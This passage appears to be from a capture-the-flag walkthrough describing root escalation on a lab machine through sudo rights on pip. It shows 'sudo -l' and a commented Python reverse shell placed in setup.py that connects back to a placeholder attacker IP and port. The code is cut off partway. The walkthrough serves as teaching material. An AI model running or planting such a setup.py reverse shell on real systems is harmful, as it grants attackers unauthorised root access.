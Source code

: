 ![user flag](screenshots/11_user_flag.PNG)

## Root Flag
One of the first things I do once I get user access is to see if the user can sudo and what commands they can run.  We can do this with the following command:
```bash
sudo -l
```
![sudo commands](screenshots/12_homer_sudo_commands.PNG)

It looks like homer can run /usr/bin/pip and install whatever modules he wants.  At first, this does not seem like a way to get command execution.  Fortunately for us, when pip install runs, it executes setup.py, so all we need is a reverse shell in a file called setup.py:
```python

# Import necessary libraries
import socket,subprocess,os

# Set up a socket that we can send and receive data through
# AF_INET is IPv4, SOCK_STREAM is TCP.  You could use socket.SOCK_DGRAM for UDP.
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

# Connect to our machine on port 44551
s.connect(("YOUR_IP",SOME_PORT))

# dup2 copies the first file descriptor to the second file descriptor.
# In the next three lines, we are duplicating the socket's file descriptor to standard input, standard output, and standard error respectively
# This sends the data to / from those streams through the socket
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
```